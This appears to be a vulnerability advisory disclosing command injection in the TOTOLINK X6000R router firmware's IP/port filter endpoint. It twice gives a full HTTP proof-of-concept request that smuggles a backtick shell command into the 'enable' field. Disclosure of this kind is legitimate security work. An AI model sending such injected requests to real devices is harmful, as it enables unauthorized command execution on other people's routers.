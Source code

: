 # Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/ipf.html".

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/9d2eaab1-3448-4ab2-9ed4-0fc1799fae92)


Capture the packet and see the enable parameter, and do a blind test directly.

You have to adjust the format yourself, add "mode": "1" and then move addEffect before enable:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=591BAF19FCA19C0D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 98
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/ipf.html?token=591BAF19FCA19C0D
Priority: u=1

{"mode":"1","addEffect":"0","enable":"`ls >/web/poc_ipf.txt`","topicurl":"setIpPortFilterRules"}
```
![image](https://github.com/user-attachments/assets/016fbb30-50cc-4305-8f51-591b03923e09)

![image](https://github.com/user-attachments/assets/1e48a310-8750-4056-862a-22e743e43095)



# PoC
Capture the packet and see the enable parameter, and do a blind test directly.

You have to adjust the format yourself, add "mode": "1" and then move addEffect before enable:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=591BAF19FCA19C0D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 98
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/ipf.html?token=591BAF19FCA19C0D
Priority: u=1

{"mode":"1","addEffect":"0","enable":"`ls >/web/poc_ipf.txt`","topicurl":"setIpPortFilterRules"}
```
![image](https://github.com/user-attachments/assets/016fbb30-50cc-4305-8f51-591b03923e09)

![image](https://github.com/user-attachments/assets/1e48a310-8750-4056-862a-22e743e43095)
